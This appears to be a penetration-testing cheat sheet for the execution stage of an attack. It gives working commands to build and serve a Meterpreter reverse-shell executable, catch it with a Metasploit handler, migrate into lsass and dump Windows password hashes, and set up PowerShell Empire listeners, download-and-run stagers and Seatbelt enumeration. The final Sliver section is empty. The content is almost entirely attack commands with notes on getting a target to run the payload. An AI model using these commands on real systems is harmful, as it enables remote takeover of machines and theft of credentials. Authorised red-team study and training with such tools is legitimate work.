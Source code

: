 # Execution

## Metasploit, MSFVenom, and Meterpreter
**Metasploit**
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

**MSFVenom**
```bash
# attacker: terminal 2
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=443 -f exe -o rshell.exe
sudo python3 -m http.server 8000
# get the target to download and execute the payload
```

**Meterpreter**  
Change exploits to `post/windows/gather/hashdump`. 
```bash
# attacker: terminal 1 (after a shell has been opened)
background                       # put session into the background 
sessions                         # confirm session number
use post/windows/gather/hashdump # change exploits
set SESSION 1                    # specify the session to use
options                          # check your exploit settings
run                              # dumps password hints and hashes
sessions -k 1                    # kill the session 
```

If there was an error about needing a SYSTEM user context, run the commands below. 
```bash
sessions -i 1                    # interact with session 1
ps                               # list processes (look for lsass, explorer, etc.)
migrate 666                      # migrate to lsass process (PID 666)
background                       # try and run the 'hashdump' exploit above again
```

## Empire, Python, and Seatbelt
Start Empire. 
```bash
# attacker Terminal 1:
cd empire/
sudo ./ps-empire server
```
```bash
# attacker Terminal 2:
cd Empire/
sudo ./ps-empire client
```

Configure and start a listener. 
```bash
# attacker Terminal 2:
uselistener http
set Name handler_http 
set Port 4444
set Host 192.168.1.23
set defaultdelay 1 # seconds between agent check-in
execute            # to modify a listener, disable it and run "editlistener" (regenerate your stager too)
```

Configure and create a stager (upon execution, the stager will download and start a C2 agent). 
```bash
# attacker Terminal 2:
usestager windows/launcher_bat
set Listener handler_http
execute # the stager will be written to empire/client/generated-stagers/
```

Host the stager so it can be downloaded by the target. 
```bash
# attacker Terminal 3:
cd empire/client/generated-stagers/
sudo python3 -m http.server 9001
# get the target to download and execute the stager (launcher.bat)
```

Pick and run a PowerShell Empire module. 
```bash
# attacker Terminal 2:
agents
interact WOW12345
usemodule powershell/situational_awareness/host/seatbelt
set Agent WOW12345
set Command -group=user # enum more info about the current user for privesc
execute 
# wait and then review the results printed to the screen
```

## Sliver
```bash
# text goes here
```